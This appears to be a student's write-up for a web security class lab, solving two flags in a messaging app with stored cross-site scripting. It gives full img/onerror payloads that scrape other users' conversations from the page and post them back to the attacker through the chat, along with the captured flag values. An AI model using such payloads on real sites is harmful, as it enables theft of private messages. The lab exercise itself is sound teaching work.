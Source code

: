 # 7 Security

Énoncé [ici](https://web-classroom.github.io/labos/labo-7-security.html)

## Partie 1

Compte utilisé: `loic.herman1`

### Flag 1

**Flag**: flag1:dacbc9136bd6064c

**Exploit**

Le premier flag se trouve dans le dernier message envoyé par Trump à Musk. Pour l'obtenir, notre JS doit extraire du DOM le contenu du dernier message de la conversation avec Trump, et l'envoyer à travers la conversation que Elon a avec nous.

```html
<img
  src="x"
  onerror="
if (document.querySelector('#header .name').innerText !== 'TestStudent1') {
    let t = Array(...document.querySelectorAll('.conversation .last-message')).map(c => c.innerHTML.trim()).join('|||');
    console.log(t)
    document.getElementById('message').innerHTML = t;
    document.getElementById('messageButton').click()
}
"
/>
```

### Flag 2

**Flag**: flag2:acc90b31e88f9b7f

**Exploit**:

An image is sent with an onerror event trigger that will collect the information from the page and send it to us directly.

```html
<img
  src="random"
  onerror="if (document.querySelector('#header .name').innerText !== 'Herman Loïc') {
    let t = Array(...document.querySelectorAll('.conversation .last-message')).map(c => c.innerHTML.trim()).join('|||');
    console.log(t)
    document.getElementById('message').innerHTML = t;
    document.getElementById('messageButton').click()
}"
/>
```
